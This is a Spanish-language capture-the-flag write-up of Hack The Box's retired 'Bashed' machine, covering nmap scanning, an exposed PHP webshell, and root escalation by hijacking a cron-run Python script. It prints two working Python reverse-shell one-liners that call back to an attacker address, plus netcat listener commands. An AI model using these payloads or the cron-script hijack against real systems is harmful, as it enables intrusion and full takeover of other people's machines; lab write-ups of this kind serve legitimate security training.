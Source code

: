 ```yaml
---
layout: post
title:  "OSCP Path ~ Bashed de Hack The Box (Necesario VIP)"
categories: "HTB OSCP-PATH"
description: Writeup de la maquina de HackTheBox llamada BASHED siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, PHP. Webshell, Maquinas Retiradas, Writeup, Hacking
---
```


# Bashed ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.68       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Procedemos a hacer Fuzzing o reconocimiento de rutas a nivel web
```bash
1.- /dev
2.- /uploads
3.-/js
```
Vamos a revisar esas rutas y si almacenan archivos y son visibles 

# Explotacion

Encontramos en la ruta `http://10.10.10.68/dev/phpbash.php` una webshell !! Una terminal interactiva como el usuarion `www-data`
Vemos que desde la webshell ya podriamos listar el contenido de la primera flag almacenada en la ruta `home/arrexel/user.txt`
Pero porque no vamos a conseguir un Revese-Shell en nuestra maquina atacante, probamos diversas Rshells y esta nos funciona correctamente.
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.12",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Nos ponemos a la escucha con una session de `netcat`-`nc -vlnp 443`
y recibimos la shell, hacemos un tratamiento de la tty como siempre y pillamos la primera flag.

# Escalada de privilegios

Listamos privilegios de www.data con `$sudo -l` y nos dice que podemos ejecutar todos los comandos como el Usuario 

Scriptmanager: 	Hacemos lo siguiente	$ sudo -u scriptmanager /bin/bash

Y nos convertimos en el usuario scriptmanager $

Nos movemos al directorio / raiz y desde ahi listamos los diferentes archivos para ver su contenido.

En este caso encontramos en el directorio inusual en la `/` - `“SCRIPTS”` y un script en python llamado `"test.py"` que por detras tiene una `Tarea Cron` como administrador del sistema.

Modificamos o borramos el script `“test.py"` y creamos otro archivito llamado igual con nuestro propio script en python que va a llevar el siguiente comando:
```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.12",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
[*] Dato importante [*]

El mismo comando que antes sin el `python -c` y quitando las comillas.

Nos quedamos a la eschucha con `nc -vlnp 1234` y cuando la `Tarea Cron` se ejecute como el usuario `root`; conseguiremos nuestra Reverse-Shell como el user `ROOT`

Maquina Bashed Rooteada =) 



